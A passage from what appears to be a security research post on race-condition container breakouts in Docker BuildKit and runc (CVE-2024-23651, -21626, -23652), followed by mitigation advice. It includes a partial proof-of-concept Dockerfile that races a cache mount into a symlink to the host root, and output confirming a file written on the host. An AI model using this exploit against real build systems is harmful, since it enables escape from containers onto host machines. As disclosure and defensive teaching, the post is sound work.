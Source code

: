FROM alpine as attacker

RUN --mount=type=cache,id=oracle,target=/oracle --mount=type=cache,id=mountsource,target=/mountsource until [ -e /oracle/mountdest ]; do :; done && rmdir /mountsource/CACHEOWNED && ln -s / /mountsource/CACHEOWNED

FROM alpine as done
COPY --from=victim /etc/passwd /victim
COPY --from=attacker /etc/passwd /attacker
When the control is passed to the script in the "victim" build stage, the deep directory structure will contain a mount to the root filesystem. To validate this, it will recursively traverse this path until it sees what appears to be a root filesystem (based on the existence of an /etc directory). At that point, it will create a file we can validate externally.

If we now build this, we can observe the result:

$ ls -l /BROKEN_OUT_WITH_RACE_CONDITION
ls: cannot access '/BROKEN_OUT_WITH_RACE_CONDITION': No such file or directory
$ docker build --no-cache .
[snipped for brevity]
$ ls -l /BROKEN_OUT_WITH_RACE_CONDITION
-rw-r--r-- 1 root root 0 Dec 19 12:10 /BROKEN_OUT_WITH_RACE_CONDITION
What this output shows us is that the mount was successfully subverted in the "victim" build step, such that the actual source of the bind mount is the real root filesystem. As mentioned above, from here, there are a multitude of options for a full breakout, and this is left as an exercise for the reader.

Be sure to read our full article on CVE-2024-23651 Mount cache race: Build-time race condition container breakout.

How to not write race conditions
In this post, we’ve explored three real-world vulnerabilities, which we identified as all, to an extent, could be categorized as race conditions. But how do we fix such vulnerabilities in reliable ways rather than just making the race window smaller and smaller?

The answer is to only act on resources that you know are safe, not that were safe at some indeterminate point in the past. In the cases we’ve seen, the validations and context were relatively robust; they checked what they wanted to check and exited if anything was amiss. The main issue is the timing window between the check and the use. To alleviate this, especially in these highlighted cases, you can open your target, be it a file or directory, perform your validation steps against that, using fstat and family, respond accordingly, but then crucially act on the same file descriptor. An attacker cannot modify the state of a file descriptor you hold, so as long as you keep it open, you know it to be the same, and you can reasonably assume that your validation still holds.

For CVE-2024-21626, our WORKDIR vulnerability, runc (the vulnerable component) took a two pronged approach to mitigation. The first was to ensure that the provided path was relative to the container rootfs using getcwd(). This function will return ENOENT if the directory does not exist inside the current rootfs, and is therefore a reliable indicator of a directory which is in the host filesystem. The second mitigation was to ensure that all dangling file descriptors which were potentially usable for this exploit were appropriately closed before the call to chdir is made.

For CVE-2024-23652, the arbitrary file deletion from the host filesystem, Docker now validates that the directory it will delete is inside the container rootfs, after the time it could then be changed again. This is an effective mitigation as it ensures that even after symlink resolution the directory remains in the container and cannot impact the host filesystem.
